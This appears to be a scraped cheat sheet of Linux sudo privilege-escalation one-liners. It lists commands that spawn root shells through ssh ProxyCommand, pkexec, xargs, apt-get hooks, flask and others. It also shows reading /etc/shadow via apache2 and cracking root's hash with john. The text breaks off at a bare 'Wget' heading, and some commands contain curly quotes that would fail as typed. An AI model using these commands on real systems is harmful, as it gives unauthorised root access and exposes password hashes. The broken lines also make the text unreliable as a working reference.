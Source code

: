 SSH
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Tmux
```
Sudo tmux
```

pkexec
```
sudo pkexec /bin/bash
```

rlwrap
```
sudo rlwrap /bin/bash
```

xargs
```
sudo xargs -a /dev/null sh
```

anansi_util
```
sudo /home/anansi/bin/anansi_util manual /bin/bash  
```

apt-get
```
sudo apt-get update -o APT::Update::Pre-Invoke::=”/bin/bash -i”
```

flask run
```
echo 'import pty; pty.spawn(“/bin/bash”)' > flask.py
export FLASK_APP=flask.py
sudo /usr/bin/flask run
```

apache2

Victim
```
sudo apache2 -f /etc/shadow
Copy root's hash
```
Attacker
```
echo '<root's_hash>' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

// Replace <root's_hash> with the hash that you copied 
```
Back to Victim
```
su root
id && whoami
```
Wget
